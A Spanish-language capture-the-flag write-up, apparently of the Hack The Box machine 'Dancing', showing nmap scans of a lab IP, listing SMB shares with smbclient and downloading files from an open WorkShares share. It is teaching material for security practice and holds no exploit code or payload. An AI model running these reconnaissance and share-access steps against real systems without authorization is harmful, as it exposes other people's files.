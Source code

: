 ```yaml
---
title: Dancing
author: d3vjh
date: 2024-02-15 12:00:00 +0000
categories: [Security, HTB]
tags: [Windows, Enumeration, Exploitation]
image: /assets/img/commons/Dancing/Dancing.png
---
```


## Recopilación de información

![Untitled](/assets/img/commons/Dancing/1.png)

```bash
❯ ping -c 1 10.129.197.183
PING 10.129.197.183 (10.129.197.183) 56(84) bytes of data.
64 bytes from 10.129.197.183: icmp_seq=1 ttl=127 time=84.5 ms


--- 10.129.197.183 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 84.479/84.479/84.479/0.000 ms
```

De esta traza `ICMP` podemos obtener que, debido al `ttl=127`, estamos frente a una máquina Windows.

Hacemos un escaneo con la herramienta **nmap**:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.197.183 -oG allPorts
```

Resultado:
```bash
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  msrpc        syn-ack ttl 127
49665/tcp open  msrpc        syn-ack ttl 127
49666/tcp open  msrpc        syn-ack ttl 127
49667/tcp open  msrpc        syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127
49669/tcp open  msrpc        syn-ack ttl 127
```

Luego, realizamos un escaneo más detallado para identificar versiones y servicios:

```bash
nmap -sCV -p135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.129.197.183 -oN targeted
```

Resultado:
```bash
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
```

## Análisis de vulnerabilidades

Por el puerto `445`, encontramos que está corriendo `microsoft-ds?`, relacionado con `SMB`. Este servicio puede ser explotado para compartir recursos en la red. Usando `smbclient`, listamos los servicios disponibles:

```bash
smbclient -L 10.129.197.183
```

Salida:
```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```

Nos conectamos al recurso `WorkShares`:

```bash
smbclient \\\\10.129.197.183\\WorkShares
```

Salida:
```bash
smb: \> ls
  .                                   D        0  ...
  Amy.J                               D        0  ...
  James.P                             D        0  ...
```

## Explotación de vulnerabilidades

Entramos al directorio `Amy.J` y descargamos un archivo:

```bash
smb: \Amy.J\> get worknotes.txt
```

Hacemos lo mismo en `James.P`:

```bash
smb: \James.P\> get flag.txt
```

## Post-Explotación

Revisamos los archivos descargados y analizamos el contenido:

![Archivo 1](/assets/img/commons/Dancing/2.png)  
![Archivo 2](/assets/img/commons/Dancing/3.png)

